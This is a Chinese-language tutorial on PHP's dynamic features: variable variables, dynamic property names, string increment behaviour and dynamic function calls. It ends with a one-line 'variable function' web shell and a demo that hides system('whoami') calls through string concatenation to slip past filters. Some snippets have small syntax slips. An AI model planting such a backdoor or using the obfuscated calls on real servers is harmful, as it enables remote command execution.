 # PHP是一门动态语言

动态语言指在运行时确定数据类型的语言。变量被使用前不需要类型声明，通常变量的类型是被赋值的那个值的类型。

PHP是一门动态语言，且相对于其他语言，它拥有一些独特的特性入：动态变量、动态函数执行等。

**PS：以下代码均在PHP7.3/7.4环境下进行测试运行的**

# 动态变量

注意：超全局变量如：$_GET 不可用作可变变量。$this 变量也是一个特殊变量，不能被动态引用。

但是，实际执行中，$_GET 等超全局变量可以作为可变变量

```php
<?php
$_GET['a']='cc';
#$a是$_GET的中间变量,$_GET是最终变量
$a='_GET';
var_dump($$a);

$_POST='asdf';
$asdf='ccc';
var_dump($$_POST);
```

## **可变属性名**

```php
<?php
class foo {
    var $bar = 'I am bar.';
    var $arr = array('I am A.', 'I am B.', 'I am C.');
    var $r   = 'I am r.';
}

$foo = new foo();
$bar = 'bar';
$baz = array('foo', 'bar', 'baz', 'quux');
echo $foo->$bar . "\n";
echo $foo->{$baz[1]} . "\n";

$start = 'b';
$end   = 'ar';
echo $foo->{$start.$end} . "\n";

$arr = 'arr';
echo $foo->{$arr[1]} . "\n";
```

## 可变变量

1.使用 $$

```php
<?php
$a='b';
$b='c';
echo $$a;
echo ${$a};
```



2.动态变量拼接

```php
<?php
$a='a';
$b='b';
$ab='cccc';
echo ${$a.$b};
```

## 自增自减

1.对于 String 类型变量，可以通过`++`自增，但无法通过`--`自减

```php
<?php
$a='a';
$b='b ';
var_dump(++$a); # b 数值改变了
var_dump(--$b); # b 无改变
```

2.如果一个 String 变量的值为空，即`$a=''`，其通过自增自减均改变值，且变量类型会变。

```php
<?php
  <?php
$a='';
$b='';
var_dump(++$a); # string(1) "1" $a依旧是String类型
var_dump(--$b); # int(-1) $b变成了int类型
var_dump(++$a); # int(2) $a变成了int类型
```

# 动态函数

PS：可变函数不能用于[echo](http://php.net/manual/zh/function.echo.php)，[print](http://php.net/manual/zh/function.print.php)，[unset()](http://php.net/manual/zh/function.unset.php)，[isset()](http://php.net/manual/zh/function.isset.php)，[empty()](http://php.net/manual/zh/function.empty.php)，[include](http://php.net/manual/zh/function.include.php)，[require](http://php.net/manual/zh/function.require.php) 等类似的语言结构函数。

1.动态执行函数

```php
<?php
$a='phPinfo'; #php的函数忽略大小写，但是变量严格大小写
$a();
```

2.动态实例化类

```php
<?php
class cc{
}
$a='cc';
new $a();
```

3.可变函数后门

```php
<?php
$_POST['1']($_POST['2']
```

# Demo

```php
<?php
('sys'.'tem')('whoami');
join("",["sys","tem"])("ipconfig");
implode(['sys','tem'])("ipconfig");
```

